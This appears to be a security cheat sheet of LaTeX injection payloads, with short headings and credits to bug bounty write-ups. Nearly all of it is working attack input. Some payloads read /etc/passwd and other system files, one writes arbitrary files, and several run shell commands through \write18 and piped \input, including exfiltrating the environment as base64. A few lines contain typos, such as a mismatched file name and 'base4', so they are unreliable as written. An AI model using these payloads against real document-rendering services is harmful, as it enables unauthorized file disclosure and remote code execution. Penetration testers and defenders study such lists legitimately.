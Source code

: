 # LaTex Injection

## Read file

```bash
\input{/etc/passwd}
\include{password} # load .tex file
```

Read single lined file

```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file

```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, keep the formatting

```bash
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

## Write file

```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

## Command execution

The input of the command will be redirected to stdin, use a temp file to get it.

```bash
\immediate\write18{env > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters

```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```

## Thanks to

* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)